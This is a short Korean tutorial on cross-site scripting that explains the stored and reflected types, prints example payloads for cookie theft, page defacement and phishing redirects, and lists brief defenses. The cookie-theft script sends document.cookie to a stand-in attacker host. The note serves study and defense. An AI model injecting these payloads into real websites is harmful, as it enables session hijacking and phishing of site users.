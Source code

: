 ## XSS란

Cross Site Scripting - 웹 취약점중 하나로 웹사이트에 악성 스크립트를 심어 이용자의 웹 브라우저에서 이를 실행시켜 공격

## XSS의 종류

1. Stored XSS: XSS에 사용되는 악성 스크립트가 서버에 저장되고 서버의 응답에 담겨오는 XSS
2. Reflected XSS: XSS에 사용되는 악성 스크립트가 URL에 삽입되고 서버의 응답에 담겨오는 XSS

## XSS 예시

### 쿠키 및 세션 탈취 공격 코드

```
<script>
// "hello" 문자열 alert 실행.
alert("hello");
// 현재 페이지의 쿠키(return type: string)
document.cookie; 
// 현재 페이지의 쿠키를 인자로 가진 alert 실행.
alert(document.cookie);
// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";
// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

### 페이지 변조 공격 코드
```
<script>
// 이용자의 페이지 정보에 접근.
document;
// 이용자의 페이지에 데이터를 삽입.
document.write("Hacked By DreamHack !");
</script>
```

### 위치 이동 공격 코드
```
<script>
// 이용자의 위치를 변경.
// 피싱 공격 등으로 사용됨.
location.href = "http://hacker.dreamhack.io/phishing"; 
// 새 창 열기
window.open("http://hacker.dreamhack.io/")
</script>
```

## 해결 방법

1. 클라이언트 or 서버에서 script 코드 검사
2. XSS filter 적용 HTML 엔티티를 이스케이프

